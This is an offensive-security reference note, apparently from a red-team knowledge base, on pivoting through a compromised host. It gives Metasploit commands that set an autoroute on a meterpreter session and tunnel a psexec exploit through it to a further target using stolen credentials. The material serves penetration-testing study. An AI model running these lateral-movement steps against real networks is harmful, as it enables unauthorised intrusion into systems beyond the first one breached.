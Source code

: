 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - metasploit-framework
  - cross-platform
credits:
  - Matthew Toussain
---
```

# Metasploit

> [!NOTE]
> This can work even if the compromised system is not a Windows operating system as long the session type is `meterpreter` payload.

Make the `meterpreter` connection act as a **p2p (peer-to-peer)** without requiring to use SMB namepipe or bind shell callbacks. Assuming you've gained a initial access, add a rule to route traffic.

```
meterpreter > run post/multi/manage/autoroute subnet=<subnet> netmask=/24
```

In this demonstration, we'll be using #psexec to exploit the target to pivot off from the compromised machine. Set `ReverseListenerComm` with a session ID. This will tunnel the `meterpreter` session.

```
meterpreter > background

msf exploit(windows/smb/psexec) > set ReverseListenerComm <session_ID>
```

Then set the IP address and port of the computer that's compromised.

```
msf exploit(windows/smb/psexec) > set lhost <pivot_IP>

msf exploit(windows/smb/psexec) > set lport <pivot_PORT>
```

Exploit the target.

```
msf exploit(windows/smb/psexec) > run rhosts=<target_IP> smbuser=<username> smbpass=<password>
```

You can list the `meterpreter` sessions to see that it is pivoting off from a compromised system.

```
meterpreter > background

msf exploit(windows/smb/psexec) > sessions -l
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x05 - Pivot/Cross Platform/SOCKS Proxy/C2 Frameworks/Metasploit]]

### Matthew Toussain

- [Matthew Toussain: Tactics Tuesday | Mass Meterpreter Single Channel](https://www.youtube.com/watch?v=IsrWJL0gIlg)